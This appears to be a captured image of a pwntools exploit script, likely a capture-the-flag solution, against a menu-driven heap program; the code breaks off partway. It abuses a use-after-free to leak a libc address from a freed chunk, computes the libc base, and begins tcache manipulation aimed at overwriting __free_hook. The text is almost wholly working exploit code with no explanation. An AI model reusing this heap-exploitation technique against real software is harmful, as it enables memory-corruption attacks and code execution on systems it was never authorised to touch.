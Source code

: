 ```python 

def option(idx):
    p.sendlineafter(b'>\n', idx)

def add(size):
    p.sendlineafter(b'>\n', b'2')

    p.sendlineafter(b'>\n', b'1')
    p.sendlineafter(b'item:\n', size)

def delete(idx):
    p.sendlineafter(b'>\n', b'2')

    p.sendlineafter(b'>\n', b'2')
    p.sendlineafter(b'remove:\n', idx)

def set(idx, size, data):
    p.sendlineafter(b'>\n', b'2')

    p.sendlineafter(b'>\n', b'3')
    p.sendlineafter(b'modify:\n', idx)
    p.sendlineafter(b'with:\n', b'0')
    p.sendlineafter(b'content:\n', size)
    p.sendlineafter(b'Enter the content:\n', data)

def show(idx):
    p.sendlineafter(b'>\n', b'2')

    p.sendlineafter(b'>\n', b'4')
    p.sendlineafter(b'show:\n', idx)

p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'1') # 0
p.sendlineafter(b'item:\n', b'1280')
p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'3')
p.sendlineafter(b'modify:\n', b'0')
p.sendlineafter(b'content:\n', b'800')
p.sendlineafter(b'Enter the content:\n', b'a'*0x100)


add(b'1280') # 0
add(b'80') # 1
delete(b'0')
show(b'0')
p.recvuntil(b'\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x1ecbe0
print(hex(libc_leak))
print(hex(libc.address))

add(b'80') # 2
delete(b'2')
delete(b'1')
p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'1') # 1
p.sendlineafter(b'item:\n', b'80')
delete(b'1')

free_hook = libc.sym['__free_hook'] 

p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'3')
```